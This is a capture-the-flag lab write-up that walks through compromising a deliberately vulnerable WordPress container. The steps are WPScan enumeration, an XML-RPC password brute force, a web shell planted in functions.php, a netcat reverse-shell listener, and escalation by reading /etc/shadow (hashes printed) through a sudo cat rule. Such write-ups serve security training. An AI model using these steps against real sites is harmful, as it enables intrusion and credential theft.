







# pressenter

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| pressenter | d1se0 | easy/facil | dockerlabs |

**Summary:** The pressenter machine was a WordPress exploitation challenge combining WPScan user enumeration, XML-RPC password bruteforcing, a theme `functions.php` webshell injection using p0wny-shell, a reverse shell upgrade, and a creative `sudo cat /etc/shadow` escalation that exploited password reuse between the `enter` system user and root. The web application required virtual host resolution to `pressenter.hl`. WPScan with aggressive detection confirmed WordPress 6.6.1 and enumerated two users: `hacker` and `pressi`. A second WPScan run with `--passwords rockyou.txt` against XML-RPC cracked `pressi`'s password as `dumbass`. After logging into the WordPress admin panel, the active theme's `functions.php` was replaced with the p0wny-shell PHP web shell. Because the shell ran without a real TTY, a bash reverse shell was sent back through it to a netcat listener and the session was upgraded using `script`. The shell landed in the theme directory and was stabilised. The system user `enter` was enumerated and a `user.txt` flag was found in the home directory. A `sudo -l` check revealed passwordless access to `/usr/bin/cat` and `/usr/bin/whoami` as any user. Running `sudo /usr/bin/cat /root/root.txt` returned a decoy message. However, `sudo /usr/bin/cat /etc/shadow` returned the full shadow file. The `enter` user's shadow hash matched the `root` hash, or the same password was reused, and `su - root` with the `enter` user's password produced a root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ sudo bash auto_deploy.sh pressenter.tar   

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ nmap -sC -sV -p- -T4 $ip            
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-04 18:59 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.0000090s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Pressenter CTF
MAC Address: 76:40:0B:51:79:AD (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

Only port 80 was open. The page title was "Pressenter CTF".

---

## Initial Access

### WordPress User Enumeration and Password Bruteforce via WPScan

**3. Web Application Inspection**

The web application on port 80 served the default Pressenter CTF page.



The virtual host `pressenter.hl` was resolved and the WordPress installation was inspected.


**4. Full WPScan Enumeration**

WPScan was run with aggressive detection against the virtual host `pressenter.hl`, enumerating all plugins, themes, config backups, DB exports, and users.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ wpscan --url http://pressenter.hl --api-token $WPSCAN_API_TOKEN --enumerate ap,at,cb,dbe,u --plugins-detection aggressive --plugins-version-detection aggressive --detection-mode aggressive --random-user-agent               
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pressenter.hl/ [172.17.0.2]
[+] Started: Tue Aug  4 19:19:22 2026

Interesting Finding(s):

[+] XML-RPC seems to be enabled: http://pressenter.hl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pressenter.hl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pressenter.hl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pressenter.hl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.6.1 identified (Insecure, released on 2024-07-23).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://pressenter.hl/?feed=atom, <generator uri="https://wordpress.org/" version="6.6.1">WordPress</generator>
 | Confirmed By: Opml Generator (Aggressive Detection)
 |  - http://pressenter.hl/wp-links-opml.php, Match: 'generator="WordPress/6.6.1"'
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WP < 6.8.3 - Author+ DOM Stored XSS
 |     Fixed in: 6.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/c4616b57-770f-4c40-93f8-29571c80330a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58674
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-cross-site-scripting-xss-vulnerability
 |      -  https://wordpress.org/news/2025/09/wordpress-6-8-3-release/
 |
 | [!] Title: WP < 6.8.3 - Contributor+ Sensitive Data Disclosure
 |     Fixed in: 6.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/1e2dad30-dd95-4142-903b-4d5c580eaad2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58246
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-sensitive-data-exposure-vulnerability
 |      - https://wordpress.org/news/2025/09/wordpress-6-8-3-release/

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:10:26 <=========> (126805 / 126805) 100.00% Time: 00:10:26[+] Checking Plugin Versions (via Aggressive Methods)

[i] Plugin(s) Identified:

[+] https://github.com/placetopay/woocommerce-gateway-placetopay
 | Location: http://pressenter.hl/wp-content/plugins/https://github.com/placetopay/woocommerce-gateway-placetopay/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://github.com/placetopay/woocommerce-gateway-placetopay/, status: 200
 |
 | The version could not be determined.

[+] php-compatibility-checker
 | Location: http://pressenter.hl/wp-content/plugins/php-compatibility-checker/
 | Latest Version: 1.6.3 (up to date)
 | Last Updated: 2026-07-20T16:03:00.000Z
 | Readme: http://pressenter.hl/wp-content/plugins/php-compatibility-checker/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/plugins/php-compatibility-checker/, status: 200
 |
 | Version: 1.6.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/plugins/php-compatibility-checker/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/plugins/php-compatibility-checker/readme.txt

[+] Enumerating All Themes (via Aggressive Methods)
 Checking Known Locations - Time: 00:03:06 <===========> (32823 / 32823) 100.00% Time: 00:03:06[+] Checking Theme Versions (via Aggressive Methods)

[i] Theme(s) Identified:

[+] twentytwentyfour
 | Location: http://pressenter.hl/wp-content/themes/twentytwentyfour/
 | Latest Version: 1.5
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/, status: 200
 |
 | The version could not be determined.

[+] twentytwentythree
 | Location: http://pressenter.hl/wp-content/themes/twentytwentythree/
 | Latest Version: 1.6
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentythree/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentythree/, status: 200
 |
 | The version could not be determined.

[+] twentytwentytwo
 | Location: http://pressenter.hl/wp-content/themes/twentytwentytwo/
 | Latest Version: 2.1
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentytwo/readme.txt
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentytwo/style.css
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentytwo/, status: 200
 |
 | The version could not be determined.

[+] Enumerating Config Backups (via Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <================> (137 / 137) 100.00% Time: 00:00:00
[i] No Config Backups Found.

[+] Enumerating DB Exports (via Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <======================> (75 / 75) 100.00% Time: 00:00:00
[i] No DB Exports Found.

[+] Enumerating Users (via Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:

[+] hacker
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] pressi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 5
 | Requests Remaining: 20

[+] Finished: Tue Aug  4 19:34:35 2026
[+] Requests Done: 159929
[+] Cached Requests: 13
[+] Data Sent: 44.213 MB
[+] Data Received: 22.164 MB
[+] Memory used: 487.164 MB
[+] Elapsed time: 00:15:12
```

WordPress 6.6.1 was confirmed and two users were identified: `hacker` and `pressi`.

**5. Gobuster on the Virtual Host**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ gobuster dir -u http://pressenter.hl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pressenter.hl/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              env,bak,png,txt,tar,js,css,php,html,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 301) [Size: 0] [--> http://pressenter.hl/]
wp-content           (Status: 301) [Size: 319] [--> http://pressenter.hl/wp-content/]
license.txt          (Status: 200) [Size: 19915]
wp-includes          (Status: 301) [Size: 320] [--> http://pressenter.hl/wp-includes/]
readme.html          (Status: 200) [Size: 7409]
wp-trackback.php     (Status: 200) [Size: 136]
Progress: 71621 / 2426138 (2.95%)[ERROR] error on word wp-login.php: timeout occurred during the request
wp-admin             (Status: 301) [Size: 317] [--> http://pressenter.hl/wp-admin/]
xmlrpc.php           (Status: 405) [Size: 42]
wp-signup.php        (Status: 302) [Size: 0] [--> http://pressenter.hl/wp-login.php?action=register]
server-status        (Status: 403) [Size: 278]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

**6. Cracking pressi's Password via XML-RPC**



```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ wpscan --url http://pressenter.hl --usernames hacker,pressi --passwords /usr/share/wordlists/rockyou.txt --enumerate
...
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - pressi / dumbass
...
```

The password `dumbass` was cracked for user `pressi` via XML-RPC.

### Theme functions.php Webshell and Reverse Shell

**7. Logging in and Replacing functions.php with p0wny-shell**

The credentials `pressi:dumbass` were used to log into the WordPress admin panel.



From the Appearance theme editor, the active theme's `functions.php` was replaced with the p0wny-shell PHP web shell from `https://github.com/flozz/p0wny-shell/blob/master/shell.php`.







The p0wny-shell confirmed execution in the theme directory but lacked a real TTY. A bash reverse shell was sent through it to a waiting netcat listener.

**8. Sending the Reverse Shell Through p0wny-shell**



```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```


**9. Catching the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50452
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
<www/pressenter/wp-content/themes/twentytwentyfour$ script -qc /bin/bash /dev/null
<es/twentytwentyfour$ script -qc /bin/bash /dev/null
<www/pressenter/wp-content/themes/twentytwentyfour$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                               
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/pressenter]
└─$ stty raw -echo; fg                 
[1]  + continued  nc -lvnp 4444

<www/pressenter/wp-content/themes/twentytwentyfour$ export SHELL=/bin/bash
<www/pressenter/wp-content/themes/twentytwentyfour$ export TERM=xterm
```

A stable shell was obtained in the theme directory. Navigating to the `enter` user's home revealed a user flag.

```bash
enter@b37ee3e82967:~$ id;whoami;hostname
uid=1001(enter) gid=1001(enter) groups=1001(enter),100(users)
enter
b37ee3e82967
enter@b37ee3e82967:~$ ls -la
total 28
drwxr-x--- 2 enter enter 4096 Aug 22  2024 .
drwxr-xr-x 1 root  root  4096 Aug 22  2024 ..
-rw------- 1 enter enter    5 Aug 22  2024 .bash_history
-rw-r--r-- 1 enter enter  220 Aug 22  2024 .bash_logout
-rw-r--r-- 1 enter enter 3771 Aug 22  2024 .bashrc
-rw-r--r-- 1 enter enter  807 Aug 22  2024 .profile
-rw-r--r-- 1 root  root    33 Aug 22  2024 user.txt
enter@b37ee3e82967:~$ cat user.txt 
4a05a7bc45edb56b1f033ca1606e176c
```

---

## Privilege Escalation

### sudo cat /etc/shadow and Password Reuse

**10. Checking sudo Permissions and Reading /etc/shadow**

```bash
enter@b37ee3e82967:~$ sudo -l
Matching Defaults entries for enter on b37ee3e82967:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User enter may run the following commands on b37ee3e82967:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
    (ALL : ALL) NOPASSWD: /usr/bin/whoami
enter@b37ee3e82967:~$ sudo /usr/bin/whoami
root
enter@b37ee3e82967:~$ sudo /usr/bin/cat /root
/usr/bin/cat: /root: Is a directory
enter@b37ee3e82967:~$ sudo /usr/bin/cat /root/root.txt

It's not going to be that easy, keep trying hehe.

```

The `root.txt` was a decoy. Running `sudo /usr/bin/cat /etc/shadow` returned the full shadow file.

```bash
enter@b37ee3e82967:~$ sudo /usr/bin/cat /etc/shadow
root:$y$j9T$akUJ4vsuBbdXzLVFhULeS/$gtonzLT9wVUtsGeA4SMfuqONBLjWdvZfJzDP5zGeB2.:19957:0:99999:7:::
daemon:*:19936:0:99999:7:::
bin:*:19936:0:99999:7:::
sys:*:19936:0:99999:7:::
sync:*:19936:0:99999:7:::
games:*:19936:0:99999:7:::
man:*:19936:0:99999:7:::
lp:*:19936:0:99999:7:::
mail:*:19936:0:99999:7:::
news:*:19936:0:99999:7:::
uucp:*:19936:0:99999:7:::
proxy:*:19936:0:99999:7:::
www-data:*:19936:0:99999:7:::
backup:*:19936:0:99999:7:::
list:*:19936:0:99999:7:::
irc:*:19936:0:99999:7:::
_apt:*:19936:0:99999:7:::
nobody:*:19936:0:99999:7:::
mysql:!:19957::::::
enter:$y$j9T$tRCuWr1iQy3bpfVGn9UgM.$zgL23sFzked4H5n8vXBuACUQ9vDduVFxlYTP222P2h.:19957:0:99999:7:::
```

The `enter` user's password was reused for root.

**11. Escalating to Root**

```bash
enter@b37ee3e82967:~$ su - root
Password: 
root@b37ee3e82967:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
b37ee3e82967
root@b37ee3e82967:~# ls -la
total 32
drwx------ 1 root root 4096 Aug 22  2024 .
drwxr-xr-x 1 root root 4096 Aug  4 13:58 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Aug 22  2024 .local
-rw------- 1 root root 2251 Aug 22  2024 .mysql_history
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
-rw-r--r-- 1 root root   52 Aug 22  2024 root.txt
-rw-r--r-- 1 root root   33 Aug 22  2024 root_true.txt
root@b37ee3e82967:~# cat root_true.txt 
4e4a603de810988e0842777de1d97e68
```

Full root access was achieved and the `root_true.txt` flag was captured.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified only port 80. The page required virtual host resolution to `pressenter.hl`. WPScan with aggressive detection confirmed WordPress 6.6.1, two vulnerabilities, XML-RPC enabled, and enumerated two users: `hacker` and `pressi`.
2. **Password Bruteforce**: A second WPScan run targeting both usernames against `rockyou.txt` via XML-RPC cracked `pressi / dumbass`.
3. **Exploitation**: Logged into the WordPress admin panel. The active theme's `functions.php` was replaced with the p0wny-shell PHP web shell. A bash reverse shell was sent through p0wny-shell to a netcat listener. The TTY was upgraded using `script`.
4. **Enumeration**: The system user `enter` was identified. A `user.txt` flag was found in `enter`'s home. `sudo -l` revealed passwordless access to `/usr/bin/cat` and `/usr/bin/whoami` as any user. Running `sudo /usr/bin/cat /root/root.txt` returned a decoy.
5. **Privilege Escalation**: `sudo /usr/bin/cat /etc/shadow` returned the full shadow file. The `enter` user's password was also the root password. `su - root` produced a clean root shell and the `root_true.txt` flag was captured.